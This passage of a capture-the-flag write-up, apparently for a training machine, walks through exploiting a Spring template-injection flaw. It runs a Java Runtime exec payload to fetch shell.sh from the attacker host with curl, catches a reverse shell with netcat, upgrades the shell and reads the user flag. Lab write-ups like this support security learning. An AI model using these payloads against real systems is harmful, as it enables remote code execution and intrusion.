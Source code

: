 ```bash
# On the web:
${T(java.lang.Runtime).getRuntime().exec('ping -c 1 10.10.X.X')}

# On the terminal:
❯ tshark -i tun0 -f 'icmp'
Capturing on 'tun0'
    1 0.000000000 10.10.11.170 → 10.10.X.X  ICMP 84 Echo (ping) request  id=0x0002, seq=1/256, ttl=63
    2 0.000023331  10.10.X.X → 10.10.11.170 ICMP 84 Echo (ping) reply    id=0x0002, seq=1/256, ttl=64 (request in 1)
2 packets captured
```

## Shell as woodenk

I created a [`shell.sh`](http://shell.sh) locally, and then exploited the SSTI:

```bash
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('curl 10.10.X.X/shell.sh -o /tmp/shell.sh').getInputStream())}
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [15/Jul/2025 17:46:10] "GET /shell.sh HTTP/1.1" 200 -
```

And then we execute it to get a shell:

```bash
❯ nc -lvnp 4444                               
listening on [any] 4444 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.11.170] 36130
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

### Shell upgrading

```bash

script /dev/null -c bash
Script started, file is /dev/null
woodenk@redpanda:/tmp/hsperfdata_woodenk$ export TERM=xterm
export TERM=xterm
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ^Z
[1]  + 34652 suspended  nc -lvnp 4444
```

```bash
❯ stty raw -echo;fg                                                            
[1]  + 34652 continued  nc -lvnp 4444

woodenk@redpanda:/tmp/hsperfdata_woodenk$ 
woodenk@redpanda:/tmp/hsperfdata_woodenk$
woodenk@redpanda:~$ cat user.txt 
<REDACTED>
woodenk@redpanda:~$ 
```
